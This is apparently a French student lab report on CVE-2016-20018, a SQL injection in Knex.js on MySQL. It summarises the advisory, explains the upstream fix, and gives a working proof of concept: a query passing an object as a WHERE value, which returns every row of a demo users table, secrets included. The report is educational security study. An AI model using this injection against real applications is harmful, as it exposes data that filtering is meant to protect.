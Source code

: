 # TP-CVE
# William - M2I M2 IASI

## 1 - Trouvez une CVE sortie en 2022 (score ≥ 7) 🔎
## CVE-2016-20018
Le package Knex.JS présente une vulnérabilité limité d’injection SQL pouvant être exploitée pour ignorer la clause WHERE d’une requête SQL.
Cette vulnérabilité fonctionne seulement sur des bases de données MySQL et a été corrigée dans la version 2.4.0. Elle affecte des milliers de packages NodeJS utilisant Knex pour construire des requêtes SQL qui n'excluent pas les paramètres ayant pour type Object et Array.

https://github.com/advisories/GHSA-4jv9-3563-23j3

![](https://i.imgur.com/KlWHWpf.png)

## 2 - Trouvez sur github (ou ailleurs) le fix (commit) de la CVE et expliquez ce fix 🔨

https://github.com/knex/knex/pull/5417

```
whereBasic(statement) {
     assert(
       !isPlainObjectOrArray(statement.value),
       'The values in where clause must not be object or array.'
     );

     return super.whereBasic(statement);
   }

   whereRaw(statement) {
     assert(
       isEmpty(statement.value.bindings) ||
         !Object.values(statement.value.bindings).some(isPlainObjectOrArray),
       'The values in where clause must not be object or array.'
     );

     return super.whereRaw(statement);
   }
```

Le fix bloque tous les paramètres insérés dans la clause `WHERE` d’une requête qui sont de type `Array` ou `Object`, en utilisant les packages [loadash](https://www.npmjs.com/package/lodash) et [assert](https://www.npmjs.com/package/assert), permettant ainsi d’éviter une injection dans les paramètres.

## 3 – Proposez une démo d’exploitation de la CVE  🖥️
Prenons une table `users` ayant pour colonnes: `id`, `name` et `secret` avec deux utilisateurs: "admin" et "guest".

| id | name  | secret             |
| -- |-------|--------------------|
| 1  | admin | super confidentiel |
| 2  | guest | salut              |

```
knex('users')
    .select()
    .where({ secret: { "name": "admin" } })
    .then(res => console.log(res))
```
En exécutant le code ci-dessus, Knex va générer la requête SQL suivante: ```select * from `users` where `secret` = `name` = 'admin'```.

Avec cette syntaxe, MySQL va ignorer la clause `WHERE` et exécuter la requête suivante: ```select * from `users` ``` et donc retourner toutes les lignes de la table `users`:

```
[
  RowDataPacket { id: 1, name: 'admin', secret: 'super confidentiel' },
  RowDataPacket { id: 2, name: 'guest', secret: 'salut' }
]
```

Le code utilisé pour générer la base de données et reproduire la CVE se trouve dans le fichier [index.js](./index.js).

![](https://i.imgur.com/3q3wxrb.png)
